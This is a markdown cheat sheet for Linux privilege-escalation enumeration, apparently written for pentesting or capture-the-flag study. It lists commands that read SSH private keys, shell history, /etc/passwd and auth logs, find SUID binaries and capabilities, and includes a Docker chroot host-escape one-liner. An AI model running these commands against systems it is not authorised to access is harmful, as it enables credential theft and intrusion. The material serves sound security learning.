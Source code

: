 > For a deeper understanding and detailed techniques on each topic, review the expanded content available in the **Techniques** directory.
## Reconnaissance
Gather basic system and user information to understand the environment.

```bash
whoami                 # Current user
id                     # User and group details
hostname               # Hostname
uname -a               # Kernel and system architecture info
cat /etc/os-release    # OS version and details
```

## Sensitive User's Information

```bash
ls -la ~               # List hidden files in the home directory
cat ~/.bash_history    # Review command history for credentials or misconfigurations
cat ~/.ssh/authorized_keys
cat ~/.ssh/id_rsa      # Check for private SSH keys
ls -la ~/.mozilla/     # List hidden browser files 
```

## Environment Variables and PATH Hijacking
Review environment variables, especially PATH, for opportunities to inject malicious binaries.

```bash
env                                 # List all environment variables
echo $PATH                          # Check PATH variable
```

## User and Group Enumeration
Check user privileges and group memberships.
```bash
groups                 # Groups current user belongs to
getent group sudo      # Users in sudo group
cat /etc/passwd        # List of system users
```

## Sudo Permissions
Identify commands you can run with sudo and if a password is required.
```bash
sudo -l                # List allowed sudo commands for the current user
```

## File Permissions and SUID Binaries
Look for files and binaries with special permissions that could be exploited.

```bash
find / -perm -4000 -type f 2>/dev/null   # Find all SUID binaries
find / -writable -type d 2>/dev/null     # Writable directories for current user
```

## Scheduled Tasks (Cron Jobs)
Check for cron jobs running as root or other privileged users.

```bash
cat /etc/crontab
ls -la /etc/cron.*
crontab -l                             # Current user's cron jobs
```

## Network Information
Identify active network connections and services.

```bash
netstat -tuln                         # Open ports and listening services
ss -tuln                             # Alternative to netstat
ps aux                              # Running processes
```

## Linux Capabilities
Look for binaries with special Linux capabilities set.

```bash
getcap -r / 2>/dev/null           # Find files with capabilities
```

## Log Files
Review system logs for sensitive information or clues.

```bash
cat /var/log/auth.log             # Authentication logs (Debian-based)
cat /var/log/secure               # Authentication logs (RedHat-based)
cat /var/log/syslog              # System logs
```


## Docker and Containers
If Docker is installed, sometimes users in docker group can escalate privileges.

```bash
groups | grep docker
docker ps
docker run -v /:/host -it alpine chroot /host sh  # Example of Docker escape (if permitted)
```

## Virtual Hosts Enumeration

Check for additional virtual hosts configured in web servers like nginx or Apache. This can reveal hidden websites or admin panels.

```bash
ls /etc/nginx/sites-enabled/
cat /etc/nginx/sites-enabled/*       

ls /etc/apache2/sites-enabled/
cat /etc/apache2/sites-enabled/*     
```

## Automated Enumeration Tools

**linpeas:** A comprehensive script that automates the enumeration process to identify potential privilege escalation vectors.

**pspy:** Tool to monitor processes and cron jobs without needing root privileges, useful to detect privilege escalation opportunities in real time.

```bash
./linpeas.sh
./pspy64
```

